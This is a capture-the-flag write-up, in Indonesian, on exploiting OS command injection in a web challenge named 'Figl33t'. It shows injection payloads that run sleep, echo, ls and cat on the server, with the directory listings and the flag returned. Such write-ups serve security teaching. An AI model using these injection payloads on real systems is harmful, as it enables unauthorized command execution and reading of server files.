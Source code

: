 # Figl33t
My friend really likes ascii art. So I created this website for her.

## Solution
Kita bisa liat dari source code yang di kasih, terdapat fungsi exec() yang dapat digunakan untuk menjalankan kode yang dihasilkan secara dinamis.
Saya mencoba menggunakan Tools yang bernama OWASP ZAP untuk mendapatkan informasi dari website ctf tersebut, ternyata dari hasil scanning OWASP terdapat alert yang menjadi sorotan bagi saya, ternyata benar saat melakukan POST data menggunakan '& sleep 15 &' saya mengingatkan methode OS Command Injection.
![Screenshot](https://cdn.acunetix.com/wp-content/uploads/2019/06/11110845/command-injection.png)
Saya mencoba untuk melakukan exploit dengan menggubah payloadnya
Payload: ```'& sleep 15 &' >> '; echo hello world'```
Response:
```hello world```
![Screenshot](https://cdn.acunetix.com/wp-content/uploads/2019/06/11110845/command-injection.png)
Setelah berhasil melakukan echo string kita coba melakukan listing directory untuk melihat isi folder dalam server.
Payload: ```'; ls -la'```
Response:
```
/app
total 80
drwxr-xr-x  1 root root  4096 Jun 10 16:22 .
drwxr-xr-x  1 root root  4096 Jun 10 16:22 ..
-rw-r--r--  1 root root    13 Jun 10 16:02 .dockerignore
-rw-r--r--  1 root root   394 Jun 10 16:22 Dockerfile
-rw-r--r--  1 root root   673 Jun 10 16:22 app.js
drwxr-xr-x 60 root root  4096 Jun 10 16:22 node_modules
-rw-r--r--  2 root root 40385 Jun 10 16:22 package-lock.json
-rw-r--r--  1 root root   286 Jun 10 16:02 package.json
drwxr-xr-x  2 root root  4096 Jun 10 16:02 public
```
Ternyata tidak ada file FLAG dalam folder /app jadi coba kita mundur satu langkah
Payload: ```'; ls / -la'```
Response:
```
total 104
drwxr-xr-x    1 root root 4096 Jun 10 16:22 .
drwxr-xr-x    1 root root 4096 Jun 10 16:22 ..
-rwxr-xr-x    1 root root    0 Jun 10 16:22 .dockerenv
drwxr-xr-x    1 root root 4096 Jun 10 16:22 app
drwxr-xr-x    1 root root 4096 May 23 01:49 bin
drwxr-xr-x    2 root root 4096 Apr  2 11:55 boot
drwxr-xr-x    5 root root  320 Jun 10 16:23 dev
drwxr-xr-x    1 root root 4096 Jun 10 16:22 etc
-rw-r--r--    2 root root   41 Jun 10 16:02 flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt
drwxr-xr-x    1 root root 4096 May 23 09:00 home
drwxr-xr-x    1 root root 4096 May 23 01:49 lib
drwxr-xr-x    2 root root 4096 May 22 00:00 lib64
drwxr-xr-x    2 root root 4096 May 22 00:00 media
drwxr-xr-x    2 root root 4096 May 22 00:00 mnt
drwxr-xr-x    1 root root 4096 May 23 09:03 opt
dr-xr-xr-x 2311 root root    0 Jun 10 16:23 proc
drwx------    1 root root 4096 May 23 09:03 root
drwxr-xr-x    3 root root 4096 May 22 00:00 run
drwxr-xr-x    1 root root 4096 May 23 01:48 sbin
drwxr-xr-x    2 root root 4096 May 22 00:00 srv
dr-xr-xr-x   13 root root    0 Apr 11  2018 sys
drwxrwxrwt    1 root root 4096 Jun 10 16:22 tmp
drwxr-xr-x    1 root root 4096 May 22 00:00 usr
drwxr-xr-x    1 root root 4096 May 22 00:00 var
```
and BOOM ada file bernama flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt jika sudah ketemu yasudah langsung kita eksekusi nunggu apa lagii?
Payload: ```'; cat /flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt'```
Response:
```ForestyHC{w0w_u_can_hack_figl33t_7d7c1b}```
![Screenshot](https://media.tenor.com/47GfMCfGemwAAAAC/pepe-the-frog-pepe.gif)